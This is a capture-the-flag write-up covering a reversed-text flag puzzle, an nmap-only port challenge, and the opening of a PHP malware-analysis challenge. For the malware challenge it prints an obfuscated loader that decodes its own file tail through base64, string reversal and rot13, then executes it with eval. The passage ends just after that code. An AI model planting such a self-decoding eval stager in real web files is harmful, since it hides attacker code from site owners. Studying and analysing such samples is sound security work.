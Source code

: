 You have to start with the firts forward-facing line, and when you get to the backwards piece, start reading from the very end. It's kind of a fun exercise, if a little slow going. The flag has been split into three parts and the parts in the backwards text will have to be reversed in the actual flag.

### I Won't Let You Down
>**Prompt:** OK Go take a look at this IP:  
Connect here: http://155.138.162.158 # USING ANY OTHER TOOL OTHER THAN NMAP WILL DISQUALIFY YOU. DON'T USE BURPSUITE, DON'T USE DIRBUSTER.

Okay, so this one took me much longer than it should have. I went to the website and watched the video. The website basically tells you to use nmap. So I did that and found 4 ports open:

```
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
646/tcp  filtered ldp
8888/tcp open     sun-answerbook
```

The first 3 look normal to me, and I know the CTF said don't use ssh. So my immediate thought was to try going to port 8888. It didn't load in the browser, or at least it just spun, so I decided to try to just use curl. 

Curl gave me an error saying http 0.9 isn't allowed. When I looked this error up, I found people saying to check if wget gave you more. 

When I ran wget on that port, it started fetching an html file. I let this download for a while before I decided it was probably just spinning. But when I checked the html file I had pulled down, it contained the lyrics to the song and at the very end the flag.

### Zerion
>**Prompt:** We observed some odd network traffic, and found this file on our web server... can you find the strange domains that our systems are reaching out to?  
NOTE, this challenge is based off of a real malware sample. We have done our best to "defang" the code, but out of abudance of caution it is strongly encouraged you only analyze this inside of a virtual environment separate from any production devices.  

This is the first "Malware Analysis" challenge of the competition and I'm pretty excited. I haven't done much malware analysis to this point, but it's always been something I'm super interested in.

So I downloaded the file onto my VM and then cut the network to it to make sure I was being at least a little safe. There was a warning in the challenge that this is based on a real malware sample that they have defanged, but they still urge us to use caution. I think that is so cool.

So my first step was to run `file` on the file to see what it actually is. It's a php script. 

I then used `cat zerion` to find out what is in the script to see if I can find out what they are doing. This returned a massive jumble of characters that started with this a intelligible text:

```
<?php $L66Rgr=explode(base64_decode("Pz4="),file_get_contents(__FILE__)); $L6CRgr=array(base64_decode("L3gvaQ=="),base64_decode("eA=="),base64_decode(strrev(str_rot13($L66Rgr[1]))));$L7CRgr = "d6d666e70e43a3aeaec1be01341d9f9d";preg_replace($L6CRgr[0],serialize(eval($L6CRgr[2])),$L6CRgr[1]);exit();?>
```

